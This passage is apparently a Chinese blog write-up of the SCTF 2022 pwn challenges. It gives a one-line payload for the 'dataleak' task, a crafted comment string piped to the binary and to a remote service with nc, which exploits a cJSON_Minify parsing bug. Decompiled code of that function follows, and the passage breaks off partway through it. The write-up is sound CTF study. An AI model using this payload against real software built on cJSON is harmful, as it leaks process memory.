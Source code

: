 ```yaml
---
title: SCTF-PWN
date: 2022-01-10 00:53:24
tags:
    - 爆破模板
    - kernel uaf
    - 堆喷
---
```


> 说下我的情况，做出了dataleak和gadget，至于kernel那道，明显的uaf，当时确实没那个能力做得出。

### dataleak

* 听其他师傅说是某个cve，出题师傅用心了。


* payload ：
  
  ` echo "AAAAAAAAAAAA/*AAAA        /*AAAAA       /*            /*" | ./cJSON_PWN`
  `(echo "AAAAAAAAAAAA/*AAAA        /*AAAAA       /*            /*";cat) | nc ip port`

思路
* 源码分析

```c
char *__fastcall cJSON_Minify(char *a1)
{
  char *result; // rax
  char *v2; // rax
  char v3; // cl
  char *v4; // rax
  char *v5; // rax
  char v6; // cl
  char *v7; // rax
  char *v8; // rax
  char v9; // cl
  char *v10; // rax
  char *v11; // [rsp+0h] [rbp-18h]
  char *v12; // [rsp+10h] [rbp-8h]

  v11 = a1;
  result = a1;
  v12 = a1;
  if ( a1 )
  {
    while ( *v11 )
    {
      switch ( *v11 )
      {
        case ' ':
          ++v11;
          break;
        case '\t':
          ++v11;
          break;
        case '\r':
          ++v11;
          break;
        case '\n':
          ++v11;
          break;
        default:
          if ( *v11 == '/' && v11[1] == '/' )
          {
```